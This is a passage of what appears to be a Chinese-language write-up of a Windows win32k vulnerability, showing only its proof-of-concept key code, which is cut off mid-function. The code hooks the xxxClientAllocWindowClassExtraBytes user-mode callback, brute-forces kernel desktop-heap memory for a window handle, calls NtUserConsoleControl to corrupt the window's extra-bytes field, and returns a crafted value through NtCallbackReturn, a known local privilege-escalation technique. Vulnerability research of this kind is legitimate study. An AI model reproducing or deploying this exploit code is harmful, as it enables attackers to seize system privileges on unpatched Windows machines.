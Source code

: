  

##2.2 POC 关键代码

```
HWND    g_hWndMagic = CreateWindowExW(
        0x08000000u,//dwExStyle = WS_EX_NOACTIVATE
        (LPCWSTR)(unsigned __int16)g_lpWcxMagic,
        L"somewnd",
        0x20000000u,//dwStyle = WS_MINIMIZE
        0,
        0,
        0,
        0,
        0,
        CreateMenu(),
        GetModuleHandleW(0),
        0);

```

```
DWORD64  g_newxxxClientAllocWindowClassExtraBytes(DWORD64* a1)
{
    DWORD64 dwTemp = *a1;
    if (dwTemp == g_nRandom)
    {
        g_offset_0x1 = 1;
        //从最小的地址暴力搜索
        HWND hwndMagic = GuessHwnd(&g_qwMinBaseAddress, g_qwRegionSize);//找到的是magicClass的HWND
        printf("MagciHwnd==%p\r\n", hwndMagic);
        if (hwndMagic)
        {
            Int_3();
            QWORD hwndMagicWNDk = (QWORD)g_pfnHmValidateHandle(hwndMagic, 1);
            printf("MagciHwnd pExtraBytes Before NtUserConsoleControl == %x\r\n", *(DWORD*)(hwndMagicWNDk + 0x128));
            g_pfnNtUserConsoleControl(6, &hwndMagic, 0x10);
            printf("MagciHwnd pExtraBytes After NtUserConsoleControl == %x\r\n", *(DWORD*)(hwndMagicWNDk + 0x128));
            QWORD qwRet = g_Thrdeskhead_cLockobj_Min;
            g_pfnNtCallbackReturn(&qwRet, 24, 0);
        }
    }
    DWORD64 dwTest = *((PULONG64) * (a1 - 11));
    return g_oldxxxClientAllocWindowClassExtraBytes(a1);
}
 
HWND GuessHwnd(QWORD* pBaseAddress, DWORD dwRegionSize)
{
    QWORD qwBaseAddressBak = *pBaseAddress;
    QWORD qwBaseAddress = *pBaseAddress;
    DWORD dwRegionSizeBak = dwRegionSize;
    HWND hwndMagicWindow = nullptr;
    do
    {
        while (*(WORD*)qwBaseAddress != g_nRandom & dwRegionSize > 0)
        {
            qwBaseAddress += 2;
 
            dwRegionSize--;
        }
        //获取不到才会走下面的步骤
        //(-50+6)*4=-2C*4=-B0 ，c8-b0=0x18，说明ptagWNDk的0x18偏移dwStyle是0x8000000
        if (*(DWORD*)((DWORD*)qwBaseAddress + (0x18 >> 2) - (0xc8 >> 2)) != 0x8000000)
        {
```